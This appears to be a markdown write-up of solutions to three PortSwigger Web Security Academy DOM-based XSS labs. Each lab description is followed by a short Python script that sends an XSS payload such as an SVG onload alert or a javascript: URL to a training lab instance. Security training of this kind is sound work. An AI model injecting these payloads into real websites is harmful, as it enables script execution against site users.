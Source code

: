 # Portswigger

## XSS

### [DOM-based XSS](https://portswigger.net/web-security/cross-site-scripting/dom-based)

#### Lab: DOM XSS in `document.write` sink using source `location.search`

_This lab contains a_ [_DOM-based cross-site scripting_](https://portswigger.net/web-security/cross-site-scripting/dom-based) _vulnerability in the search query tracking functionality. It uses the JavaScript `document.write` function, which writes data out to the page. The `document.write` function is called with data from `location.search`, which you can control using the website URL._

_To solve this lab, perform a_ [_cross-site scripting_](https://portswigger.net/web-security/cross-site-scripting) _attack that calls the `alert` function_

```python
import requests

url = "https://0a1e0067044d34a8c2a44bb8000700ed.web-security-academy.net"

session = requests.Session()

params = {
    "search" : f'"><svg/onload=alert(1)>'
}
r = session.get(url = url , params= params)

if "Congratulations, you solved the lab!" in r.text:
    print("solved")
```

#### Lab: DOM XSS in `innerHTML` sink using source `location.search`

_This lab contains a_ [_DOM-based cross-site scripting_](https://portswigger.net/web-security/cross-site-scripting/dom-based) _vulnerability in the search blog functionality. It uses an `innerHTML` assignment, which changes the HTML contents of a `div` element, using data from `location.search`._

_To solve this lab, perform a_ [_cross-site scripting_](https://portswigger.net/web-security/cross-site-scripting) _attack that calls the `alert` function._

```python
import requests

url = "https://0a9900f9047f2860c1167170009f00d1.web-security-academy.net/"

session = requests.Session()

params = {
    "search" : f'<svg/onload=alert(1)>'
}
r = session.get(url = url , params= params)

if "Congratulations, you solved the lab!" in r.text:
    print("solved")
```

#### Lab: DOM XSS in jQuery anchor `href` attribute sink using `location.search` source

_This lab contains a_ [_DOM-based cross-site scripting_](https://portswigger.net/web-security/cross-site-scripting/dom-based) _vulnerability in the submit feedback page. It uses the jQuery library's `$` selector function to find an anchor element, and changes its `href` attribute using data from `location.search`._

_To solve this lab, make the "back" link alert `document.cookie`._[\
](https://twitter.com/share?url=https%3a%2f%2fportswigger.net%2fweb-security%2fcross-site-scripting%2fdom-based%2flab-jquery-href-attribute-sink\&text=Lab%3a+DOM+XSS+in+jQuery+anchor+href+attribute+sink+using+location.search+source+%7c+Web+Security+Academy%0A)

```python
import requests

url = "https://0a1300e80334a707c1d5865600da009e.web-security-academy.net"

session = requests.Session()

params = {
    "returnPath" : f'javascript:alert(1)'
}
r = session.get(url = url , params= params)

if "Congratulations, you solved the lab!" in r.text:
    print("solved")
```
